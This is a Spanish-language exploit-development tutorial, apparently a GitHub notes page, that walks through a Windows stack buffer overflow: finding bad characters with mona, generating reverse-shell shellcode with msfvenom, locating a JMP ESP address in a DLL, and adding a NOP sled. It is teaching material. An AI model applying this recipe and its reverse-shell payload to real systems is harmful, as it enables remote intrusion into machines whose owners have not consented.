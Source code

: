 El payload viene después de sobrescribir el EIP, estará en el comienzo del ESP (la pila) esto hace más cómodo al atacante redirigir el flujo del programa a la pila, ya que al inicio de la pila estará el payload.

Primero debemos encontrar los **"bad chars"** para evitar que el payload nos de error, entre estos el más común es **\\x00**

## Buscamos los Bad Chars

Creamos una carpeta de trabajo con mona

```python
!mona bytearray -cpb "\x00"
```

Comparamos los badchars con mona

```python
!mona compare -f C:\\ruta.bin -a $address
```

Veremos los caracteres no permitidos y realizamos la primera operación creando un array y eliminando los caracteres que nos da la comparación.

## Generamos un shellcode con msfvenom

```python
msfvenom -p windows/shell_reverse-tcp LHOST= LPORT= -a x86 --platform windows -b "$badchars" -e x86/shikata_ga_nai -f C
```

Si tenemos demasiados badchars nos generará error, para solucionar eso eliminamos
`-e x86/shikata_ga_nai`

## Buscamos el OpCode correspondiente a un JMP ESP

Para buscar el OpCode usamos la herramienta de metasploit

```python
./nasm_shell.rb
nasm > jmp ESP
FFE4
```

Con mona listamos los módulos y buscamos un .dll que tenga todo desactivado excepto el `OS Dll`, debemos buscar su OpCode que sea un salto al ESP

```python
!mona find -s "\xff\xe4" -m "modulo.dll"
```
 Buscamos la dirección que no contenga badchars y la copiamos e integramos en nuestro programa para que redireccione el payload de manera correcta.
 
 ## Uso de los NOPs
 
 Para que nuestro shellcode pueda ser interpretado debemos utilizar los NOPs **"\x90"x16** , con esto le damos un tiempo para que nuestro payload sea funcional.
 